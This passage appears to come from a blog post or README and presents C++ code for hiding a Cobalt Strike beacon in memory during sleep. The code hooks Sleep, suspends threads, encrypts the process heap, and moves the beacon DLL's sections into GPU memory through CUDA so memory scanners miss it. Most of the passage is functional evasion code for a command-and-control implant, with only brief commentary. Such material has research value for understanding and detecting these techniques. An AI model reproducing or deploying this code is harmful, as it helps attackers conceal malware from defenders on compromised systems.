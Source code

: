 ```cpp
		printf("Section: %s - VirtualAddress %08x - VirtualSize %d - Moved from %08x\n", section->Name, (SIZE_T)dll + section->VirtualAddress, SectionSize, (ULONG_PTR)((SIZE_T)storage + section->VirtualAddress));

		LPVOID dst = (void*)((SIZE_T)dll + section->VirtualAddress);
		VirtualProtect(dst, SectionSize, PAGE_READWRITE, &oldProtect);
		Api->CudaMemoryCopyToHost((PVOID)dst, storage + section->VirtualAddress, SectionSize);
		VirtualProtect(dst, SectionSize, oldProtect, &oldProtect);
	}

	for (auto it = heapLocationMap.cbegin(); it != heapLocationMap.cend(); ++it)
	{
		printf("Moved %08x to %08x\n", it->first, it->second);

		Api->CudaMemoryCopyToHost((PVOID)it->second, (ULONG_PTR)it->first, heapMap[it->second]);
	}

	heapLocationMap.clear();

	Api->CudaMemoryFree(storage);
}

```

## Heap encryption
I am not going to explain everything about how to encrypt the heap, go read @waldo-irc blog post. After adding heap encryption, `HookedSleep` looks like this.

```cpp
void HookedSleep(DWORD dwMilliseconds) {

	std::cout << "Hooked Sleep!\n";
	// so Context cannot be init before CS beacon is fired up, I dunno why... If init before, cuda returns error 201
	Context = initCuda(&Api, &Context);

	ULONG_PTR storageGPU;

	DoSuspendThreads(GetCurrentProcessId(), GetCurrentThreadId());
	std::cout << "Heap encrypt starts\n";
	HeapEncryptMap(heapMap);

	DWORD SizeOfHeaders;
	storageGPU = MoveDLLToGPUStrorage(dll, &SizeOfHeaders, &Api);
	std::cout << "Sleeping....\n";
	OldSleep(dwMilliseconds);
	MoveDLLFromGPUStrorage(dll, storageGPU, SizeOfHeaders, &Api);

	HeapEncryptMap(heapMap);
	std::cout << "Heap decrypt done\n";
	DoResumeThreads(GetCurrentProcessId(), GetCurrentThreadId());
}
```
